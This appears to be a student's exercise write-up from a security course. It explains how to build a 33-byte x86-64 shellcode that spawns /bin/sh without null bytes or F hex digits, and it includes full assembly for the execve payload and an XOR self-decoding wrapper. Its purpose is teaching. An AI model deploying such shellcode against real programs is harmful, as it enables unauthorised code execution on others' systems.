 # PCS final -- `pentadecimal`

### Anders Holst (`sortraev`, `wlc376`)

#### Status of hand-in

I successfully construct a `sh`-popping piece of shellcode of containing 33
bytes with no NULL bytes or `F` digits.

## Restrictions imposed upon the shellcode

The shellcode cannot contain null bytes or `F` digits, and must be 50 bytes or
less. As usual, absence of null bytes makes it hard to encode forward
jumps/calls, but the absence of `F` digits can also make it hard to encode
*backward* jumps. This can eg. make it hard to obtain `rip` control using a
trampoline, but as we saw earlier in the course, we can use the `lea [rel
<symbol>]` instruction to obtain `rip` control as:

```
lea rax, [rel .some_label - foo]
add rax, foo
; rax now holds address of .some_label
.some_label:
```

as long as we choose an appropriate value for the immediate value `foo`.
However, this costs a great number of bytes, which we can save by making a small
assumption: in the disassembly of `main`, I notice that the shellcode is called
using a `call rax`, meaning `rax` holds the address of the start of the
shellcode upon entry. Easy!

Aside from this, the absence of null bytes and `F` digits also poses
restrictions on the instructions we can use, and, in particular, immediate
values. Some of these restrictions we could probably get around by substituting
other instructions, while for others some we cannot. For example, `syscall`
contains an `F`, and we definitely need a `syscall` in our shellcode. In
addition, the string `"/bin/sh"` contains backslashes which has the hex value
`0x2f`, and we will probably also need to pass this string to `execve`.

This means I will probably have to encode my shellcode and wrap the encoded
shellcode in *additional* shellcode to decode the sh-popping shellcode on the
fly. Did somebody say shellcode? This should be doable, but the decoding code
must, of course, also adhere to the restrictions!


## Developing the shellcode

#### Original shellcode

Below snippet shows the shellcode that I ideally would like to run. It is 22
bytes long and contains no NULL bytes, however it contains a couple of `F`
digits.

```asm
bits 64
  xor esi, esi   ; rsi = NULL.
  push rsi       ; null-terminate string on stack.

  mov rax, 0x68732f2f6e69622f ; push "/bin//sh".
  push rax

  push rsp    
  pop rdi        ; rdi = "/bin//sh\0".

  push byte 59   ; syscall execve.
  pop rax

  cdq            ; rdx = NULL.
  syscall
```

As mentioned earlier, the idea is to wrap the shellcode in encoding code, and
then to find an encoding key which suits the entire code.

#### Final shellcode

Below snippet shows my final shellcode, where I have inserted a small decoding
loop to the head of the shellcode, which XOR's each byte in the shellcode with a
given decoding key. Since the second byte of `jne .decode_loop` contains an
`F`, the decoding actually starts one byte before the sh-popping shellcode. To
terminate the decoding loop, I insert an extra byte equal to the decoding key at
the end of the sh-popping code, since `key ^ key = 0` and hence the `jne` loop
terminates.

The final shellcode is 33 bytes long and looks like this:

```x86asm
%define key 0x22 ; encoding/decoding key.

bits 64
  ; if we do not assume rax holds address of the shellcode upon entry, we
  ; can use an extra 13 bytes to obtain rip as such:
  ; lea rax, [rel .decode_loop - 0x22222222]
  ; add rax, 0x22222222

.decode_loop:
  lea rax, [rax + 1]        ; rax holds address of shellcode upon entry.
  xor [rax + 0x8], byte key ; decode!
  db 0x75, (0xf6 ^ key)     ; becomes `jne .decode_loop` after first xor.

  ; below sequence becomes sh-popping shellcode after above loop terminates.
  db 0x31 ^ key, 0xF6 ^ key, 0x56 ^ key, 0x48 ^ key, 0xB8 ^ key, 0x2F ^ key, \
     0x62 ^ key, 0x69 ^ key, 0x6E ^ key, 0x2F ^ key, 0x2F ^ key, 0x73 ^ key, \
     0x68 ^ key, 0x50 ^ key, 0x54 ^ key, 0x5F ^ key, 0x6A ^ key, 0x3B ^ key, \
     0x58 ^ key, 0x99 ^ key, 0x0F ^ key, 0x05 ^ key

  ; this last key byte is here to terminate the .foo loop, since key ^ key = 0.
  db key
```

*Note in the commented-out code how we can alleviate the assumption of `rax`
holding the address of our shellcode -- this cost me 13 extra bytes, so I
decided to go with the assumption.*

The encoding/decoding key we choose must satisfy:

1) the decoding key must not be 0 and must not contain `F` digits;
2) the decoding key must not be present in the shellcode before encoding, aside
   from the loop-terminating byte.

I write an automated script to find me all possible such keys for the given
shellcode, and choose `0x22` simply because it is the prettiest, but others work
aswell.
